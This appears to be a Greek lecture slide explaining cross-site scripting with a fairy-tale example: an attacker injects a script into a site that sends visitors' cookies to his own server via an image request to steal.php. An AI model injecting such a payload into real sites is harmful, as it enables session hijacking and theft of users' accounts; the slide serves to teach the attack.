

# XSS
Αρκεί λίγη Javascript για να κάνει το κακό...

Έστω ότι ο kakoslykos καταφέρνει να τρέξει το ακόλουθο στο kokkinoskoufitsa.gr:

<script type=“text/javascript”>
    var img = document.createElement( ‘img’ );

    img.src = ‘http://kakoslykos.gr/steal.php?cookie=‘ + document.cookie;
    document.appendChild( img );
</script>